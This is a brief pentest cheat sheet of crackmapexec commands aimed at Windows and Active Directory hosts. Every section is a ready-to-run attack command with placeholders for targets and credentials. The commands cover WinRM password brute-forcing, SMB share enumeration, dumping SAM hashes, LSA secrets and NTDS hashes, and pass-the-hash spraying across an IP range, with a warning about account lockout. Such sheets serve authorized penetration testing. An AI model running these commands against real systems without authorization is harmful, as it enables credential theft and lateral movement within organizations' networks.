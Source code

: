 # cme (deprecated)

% cme, crackmapexec, windows, Active directory

## crackmapexec - Brute force user names and passwords over WinRM
```
crackmapexec winrm <ip> -u user.list -p password.list
```

## crackmapexec - Enumerate SMB shares
```
crackmapexec smb <ip> -u "user" -p "password" --shares
```

## crackmapexec - Password policy
```
crackmapexec smb <ip> -u <USER> -p <PASSWD> --pass-pol
```

## crackmapexec - Dump password hashes from SAM
```
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
```

## crackmapexec - Dump LSA secrets
```
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
```

## crackmapexec - Dump hashes from NTDS file
```
crackmapexec smb <ip> -u <username> -p <password> --ntds
```
## crackmapexec - PTH sprayin local admin
```
# Can lockout domain account
# Use local acc method like below : try 1 login on a host of a given range
crackmapexec smb <IP/RANGE> -u <USER> -d . -H <NT HASH>
```
